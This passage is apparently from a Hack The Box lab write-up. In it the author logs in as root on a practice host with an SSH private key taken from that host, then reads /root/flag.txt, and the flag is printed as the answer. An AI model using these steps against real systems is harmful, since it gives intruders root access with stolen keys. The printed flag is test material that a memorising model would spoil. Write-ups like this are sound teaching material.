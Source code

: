 Now that we have the SSH key, we can log in to the root user by copying the key to our Kali machine. 

```
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo nano id_rsa
[sudo] password for kali: 
```

Key is inserted in a new `id_rsa` file on our Kali machine.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo chmod 600 id_rsa

┌──(kali㉿kali)-[~/Downloads]
└─$ sudo ssh root@161.35.169.118 -p 31236 -i id_rsa
The authenticity of host '[161.35.169.118]:31236 ([161.35.169.118]:31236)' can't be established.
ED25519 key fingerprint is SHA256:KDcF5lg81jNEGgdr67bEo+Ui1pmsyHXKnw/ZHPLZCyY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[161.35.169.118]:31236' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.10.0-0.deb10.17-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

root@gettingstartedprivesc-476470-65b4ccfbdf-wtx99:~# cat /root/falg.txt
cat: /root/falg.txt: No such file or directory
root@gettingstartedprivesc-476470-65b4ccfbdf-wtx99:~# cat /root/flag.txt
HTB{pr1v1l363_35c4l4710n_2_r007}
```

**Answer:** `HTB{pr1v1l363_35c4l4710n_2_r007}`

---
## 
### Question:
![](./attachments/Pasted%20image%2020230119122416.png)
*Hint: Check out what was REDACTED from the above nmap output. The answer should be in the same place.*
